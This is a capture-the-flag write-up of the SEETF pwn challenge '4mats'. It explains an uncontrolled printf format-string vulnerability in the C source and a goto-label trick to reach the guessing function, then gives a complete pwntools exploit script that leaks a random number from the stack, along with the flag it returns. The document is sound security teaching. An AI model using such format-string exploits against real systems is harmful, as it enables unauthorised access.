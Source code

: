 # 4mats

![Challenge](./Images/4mats_chall.PNG)

[Files](./Files/pwn_4mats.zip)

We are presented with a binary and its source c file for a program running on a server. Running the binary we are greeted with this:

```
Welcome to SEETF!
Please enter your name to register:
```

After entering a name, the program responds with:

```
Welcome: theF0X

Let's get to know each other!
1. Do you know me?
2. Do I know you?
```

After entering '1', the program responds with:

```
Guess my favourite number!
1
Not even close!
```

After entering '2', the program responds with:

```
Whats your favourite format of CTFs?
crypto
Same! I love
crypto
too!
```

Upon entering a valid input, the program will return back to the menu.

Reading over the source, the goal seems to be to 'guess' a random number chosen by the program. If we are correct, there is a system call to print the flag file. 

```c
void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
    system("cat flag");
        exit(0);}
   else{
       printf("Not even close!\n");
   }

}
```

Reading further we can see several labels, as well as a switch case for different user options. Looking more closely, we can see the vulnerability we need to exploit. A user-provided string is printed to the screen using `printf` with only one argument.

```c
case 2:
mat5:
        printf("Whats your favourite format of CTFs?\n");
        read(0, format, 64);
        printf("Same! I love \n");
        printf(format);
        printf("too!\n");
        break;
```

For those that don't know `printf` is used to print a format string. Format strings often require variables to be passed along with the string to `printf`. For example `ID: %d` requires an integer argument. If a format string requires an argument but none is passed, then `printf` simply begins reading values off the stack, where it thinks the argument should be.

The outline of an exploit begins to form:

1. Generate a random number.
2. Leak values from the stack until we find the number.
3. Call guess_me and provide the leaked number.
4. Profit???

The only issue is calling guess_me without setting a new random number. Simply calling option 1 in the menu will trigger a new random number, making our leaked one worthless.

```c
 case 1:
        srand(time(NULL));
        int fav_num = rand() % 1000000;
        set += 1;
mat4:
        guess_me(fav_num);
        break;
```

 Luckily there is a label (mat4) between the random number generator and the call to guess_me. In order to jump to that label we simple trigger the default switch case behavior and ensure that the variable 'set' is equal to 4. 

```c
default:
    printf("I print instructions 4 what\n");
    if (set == 1)
mat6:
        goto mat1;
    else if (set == 2)
        goto mat2;
    else if (set == 3)
mat7:
        goto mat3;
    else if (set == 4)
        goto mat4;
    else if (set == 5)
        goto mat5;
    else if (set == 6)
        goto mat6;
    else if (set == 7)
        goto mat7;
    break;
```

 We can trigger the default switch-case behavior by providing a number other than 1 or 2. And we can ensure 'set' is equal to 4 by calling case 1 four times(each time case one is triggered 'set' is incremented).

So the final exploit plan is as follows:

1. Trigger option 1 four times.
2. Trigger option 2, and provide a format string that requires parameters
3. Trigger default by sending number 3, provide leaked value to guess_me

#### Code

```python
from pwn import *

#p = process("./distrib/vuln")
p = remote("fun.chall.seetf.sg", 50001)

p.sendlineafter(b"Please enter your name to register:",b"theF0X")

for i in range(4):
    p.sendlineafter(b"2. Do I know you?\n",b"1")
    p.sendlineafter(b"Guess my favourite number!",b"0")

p.sendlineafter(b"2. Do I know you?\n",b"2")
payload = b"%d " * 8 + b"\n"
p.sendlineafter(b"Whats your favourite format of CTFs?\n", payload) #format string
p.recvline()#"Same! I love \n"
data = p.recvline()
arr = data.decode().split(" ")
num = int(arr[6]) #leaked value

p.sendlineafter(b"2. Do I know you?\n",b"3")
p.sendlineafter(b"Guess my favourite number!",str(num).encode())
print(p.recvall())
p.close()
```

Note: I grabbed index 6 from the list of leaked values, it stood out to me because it was the smallest value. In reality, there was not much logic involved in picking the index.

**OUTPUT**

```
#b'\nYes! You know me so well!\nSEE{4_f0r_4_f0rm4t5_0ebdc2b23c751d965866afe115f309ef}\n'
```